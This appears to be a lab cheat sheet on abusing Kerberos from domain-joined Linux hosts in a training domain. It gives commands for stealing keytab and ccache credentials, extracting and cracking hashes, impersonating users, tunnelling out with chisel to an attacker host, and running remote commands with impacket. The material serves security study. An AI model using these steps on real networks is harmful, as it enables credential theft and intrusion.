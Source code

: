 -----
## Identify Linux and Active Directory Integration
-----

### realm - Check if Linux Machine is Domain joined

```bash
realm list

# Sample output
inlanefreight.htb
  type: kerberos
  realm-name: INLANEFREIGHT.HTB
  domain-name: inlanefreight.htb
  configured: kerberos-member
  server-software: active-directory
  client-software: sssd
  required-package: sssd-tools
  required-package: sssd
  required-package: libnss-sss
  required-package: libpam-sss
  required-package: adcli
  required-package: samba-common-bin
  login-formats: %U@inlanefreight.htb
  login-policy: allow-permitted-logins
  permitted-logins: david@inlanefreight.htb, julio@inlanefreight.htb
  permitted-groups: Linux Admins
```

### PS - Check if Linux Machine is Domain Joined
```bash
	ps -ef | grep -i "winbind\|sssd"
```

-------
## Finding Kerberos Tickets in Linux
----

### Finding Keytab Files
- Use Find to search for files with Keytab in the name
```bash
	find / -name *keytab* -ls 2>/dev/null
```
 >*Note: To use keytab files, we must have read and write privileges on the file*

 - Identify Keytab files in cronjobs
 ```bash
 crontab -l
```
-  Look for _**kinit**_, which means Kerberos is in use. _**kinit**_ can be used to import a keytab into our session and act as the user.

## Finding ccach Files
- A credential cache or ccache file holds Kerberos credentials while they remain valid and, generally, while the user's session lasts. Once a user authenticates to the domain, a ccache file is created that stores the ticket information. The path to this file is placed in the KRB5CCNAME environment variable. This variable is used by tools that support Kerberos authentication to find the Kerberos data. Let's look for the environment variables and identify the location of our Kerberos credentials cache:
```bash
env | grep -i krb5
```

### Abuse KeyTab Files
- List KeyTab file information
```bash
	klist -k -t
```

- Impersonate a user with a KeyTab
```bash
klist
kinit carlos@INLANEFREIGHT.HTB -k -t /opt/specialfiles/carlos.keytab
klist	
```

- Connect to SMB Share as Carlos
```bash
smbclient //dc01/carlos -k -c ls
```
> **Note:** To keep the ticket from the current session, before importing the keytab, save a copy of the ccache file present in the environment variable KRB5CCNAME

### KeyTab Extract
- Extract Keytab Hashes with KeyTabExtract
```bash
	python3 /opt/keytabextract.py /opt/specialfiles/carlos.keytab
```
- Once obtain the hashes, crack them.
- Log in as Carlos
```bash 
	su - carlos@inlanefreight.htb
```
- Obtain more hashes: Carlos has a cronjob that uses a keytab file named svc_workstation.kt. We can repeat the process, crack the password and log in as svc_workstations.

### Abuse Keytab ccache
- We must obtain root privilege.
- Look for ccache files 
```bash
	ls -la /tmp
```
- Identify Group Membership with the id command
```bash
id julio@inlanefreight.htb
```

- Import the ccache file into our current session
```bash
klist
cp /tmp/krb5cc_<SNIP> .
export KRB5CCNAME=/root/krb5cc_<SNIP>
klist

smbclient //dc01/C$ -k -c ls -no-pass
```

-----------
## Use Linux Attack Tools with Kerberos
-----------
#### Host File Modified
```bash
cat /etc/hosts
172.16.1.10 inlanefreight.htb   inlanefreight   dc01.inlanefreight.htb  dc01
172.16.1.5  ms01.inlanefreight.htb  ms01
```

#### Proxychains Configuration File
```bash
[ProxyList]
socks5 127.0.0.1 1080
```

#### Download Chisel to ATTACKER HOST
```bash
wget https://github.com/jpillora/chisel/releases/download/v1.7.7/chisel_1.7.7_linux_amd64.gz
gzip -d chisel_1.7.7_linux_amd64.gz
mv chisel_* chisel && chmod +x ./chisel
sudo ./chisel server --reverse 
```

#### Connect to MS01 with xfreerdp
```bash
xfreerdp /v:10.129.204.23 /u:david /d:inlanefreight.htb /p:Password2 /dynamic-resolution
```

#### Execute chisel from MS01
```cmd-session
C:\htb> c:\tools\chisel.exe client $ATTACKER$:8080 R:socks
```

#### Setting the KRB5CCNAME Environment Variable
```bash
export KRB5CCNAME=/home/htb-student/krb5cc_<SNIP>
```

### Impacket
- Use Impacket with proxychains and Kerberos Authentication
```bash
proxychains impacket-wmiexec ms01 -k
```

